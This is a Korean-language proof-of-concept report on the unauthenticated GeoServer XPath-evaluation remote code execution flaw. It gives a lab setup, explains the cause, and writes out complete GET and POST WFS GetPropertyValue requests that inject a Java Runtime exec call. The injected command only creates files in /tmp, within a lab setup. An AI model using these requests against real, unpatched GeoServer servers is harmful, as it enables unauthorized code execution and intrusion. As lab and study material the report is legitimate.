

# GeoServer RCE 취약점 PoC 보고서

GeoServer는 자바로 작성된 오픈소스 소프트웨어 서버로, 지리공간 데이터를 조회, 편집, 공유할 수 있는 기능을 제공합니다. 이 서버는 GIS (Geographic Information System) 데이터베이스, 웹 기반 데이터, 개인 데이터셋 등 다양한 출처의 지리공간 데이터를 배포하기 위한 유연하고 효율적인 솔루션을 목표로 설계되었습니다.

GeoServer 2.25.1, 2.24.3 및 2.23.5 이전 버전에서는, 기본 GeoServer 설치 환경에서 인증되지 않은 사용자가 여러 OGC 요청 파라미터를 통해 특수하게 조작된 입력을 전달할 경우 XPath 표현식으로 속성 이름을 안전하지 않게 평가함으로써 원격 코드 실행(RCE)이 가능하게 되는 취약점이 존재합니다.

## 참고 자료

- [GHSA-6jj6-gm7p-fcvv](https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv)
- [GHSA-w3pj-wh35-fq8w](https://github.com/geotools/geotools/security/advisories/GHSA-w3pj-wh35-fq8w)
- [TTTang Archive](https://tttang.com/archive/1771/)
- [CVE-2022-41852 by Warxim](https://github.com/Warxim/CVE-2022-41852)

## 취약 환경

GeoServer 서버 버전 2.23.2를 시작하려면 다음 명령어를 실행합니다:

```bash
docker compose up -d
```
서버가 시작된 후, 웹 브라우저에서 http://your-ip:8080/geoserver 에 접속하면 GeoServer의 기본 페이지가 표시됩니다.

## Exploit (취약점 공격 방법)
공식 취약점 공지에서는 다음과 같은 내용이 제공됩니다:

공개된 PoC (Proof of Concept)는 없으나, 이 취약점은 WFS GetFeature, WFS GetPropertyValue, WMS GetMap, WMS GetFeatureInfo, WMS GetLegendGraphic, 그리고 WPS Execute 요청을 통해 실제로 악용 가능함이 확인되었습니다.

예를 들어, 저는 GetPropertyValue 요청을 이용해 악의적인 XPath 표현식을 실행할 예정입니다. 공식 문서를 참고하면 GET 방식 PoC는 다음과 같습니다:
```bash
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1') HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
```
POST 방식 PoC는 다음과 같습니다:

```xml
POST /geoserver/wfs HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'touch /tmp/success2')</wfs:valueReference>
</wfs:GetPropertyValue>
```
전형적으로 발생하는 java.lang.ClassCastException 오류 메시지가 나타날 수 있습니다.


보시다시피, success1, success2 파일이 모두 성공적으로 생성되었습니다.

#### 중요 사항

typeNames 파라미터는 반드시 존재해야 합니다. 로그인 없이 웹 서버에 존재하는 모든 사용 가능한 타입들을 확인할 수 있습니다.


- [블로그 링크](https://github.com/R00T-Kim/kr-vulhub/tree/main/CVE-2024-36041)

# 원리
### 배경: 
GeoServer는 OGC 표준 프로토콜 (예: WFS, WMS 등)을 제공하며, 내부적으로 XPath와 같은 기능을 사용해 “ValueReference”나 “typeNames” 등을 해석합니다.

### 취약점 요지:
특정 요청 파라미터 (예: valueReference)가 XPath 표현식처럼 처리되며, 동시에 Java의 exec() 함수를 호출할 수 있을 정도로 확장되어 있습니다. 정상적인 경우에는 단순 속성 (예: typeNames=sf:archsites) 만을 해석해야 하지만, GeoServer 내부 코드가 이를 안전하게 검증하지 않고 XPath 구문으로 직렬화하거나 해석함으로써 문제가 발생합니다.

### 결과:
공격자는 exec(java.lang.Runtime.getRuntime(), 'touch /tmp/success1') 같은 Java 함수 호출 구문을 삽입하여 원격 코드 실행(RCE)을 유발할 수 있습니다.

